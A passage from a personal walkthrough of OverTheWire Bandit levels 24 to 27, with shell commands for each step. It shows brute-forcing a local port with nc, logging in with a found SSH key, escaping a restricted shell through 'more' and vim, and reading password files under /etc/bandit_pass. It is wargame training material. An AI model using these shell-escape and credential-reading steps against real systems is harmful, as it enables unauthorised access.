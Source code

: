 4. Run cat on list.txt testing it against the port until you receive the password 
```
cat list.txt | nc localhost 30002
```

### **Bandit Level 25 → 26** *(02/25/25) - ~20 Minutes*
**Solution:**
1. We run ls to see what were working with and we see were give the private key
```
ls -la
cat bandit26.sshkey
```
2. Similar to past solutions we will use this to enter bandit26
```
mkdir /tmp/rsa_key
cd /tmp/rsa_key
touch private.key
nano private.key (enter RSA key)
chmod 400 private.key
ssh -i private.key bandit26@bandit.labs.overthewire.org -p 2220
```
3. As you will see when you try to connect like this the connection will be immedietly closed, therefore we will have to look for another solution
- You can see from the old password folder all the information about each bandit user and here we can see the shell bandit26 is using as well as the shell command
```
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
```
4. We will now exploit the more function utilized in the shell command by making the terminal extremly small and connecting to bandit26
```
#shrink terminal
ssh -i private.key bandit26@bandit.labs.overthewire.org -p 2220
```
5. Now we will exploit more by entering vim, from vim you can execute shell commands using : as seen below to retrieve the password
```
:set shell? #shows what shell we are in
:set shell=/usr/bin/bash #change shell
:shell #enter shell
cat /etc/bandit_pass/bandit26 #retrieve password
```

### **Bandit Level 26 → 27** *(02/26/25) - ~5 Minutes*
**Solution:**
1. Login to bandit26 through the previous level
2. Read the bandit27 password with the binary file given
```
ls -a
cat bandit27-do
./bandit27-do cat /etc/bandit_pass/bandit27
```
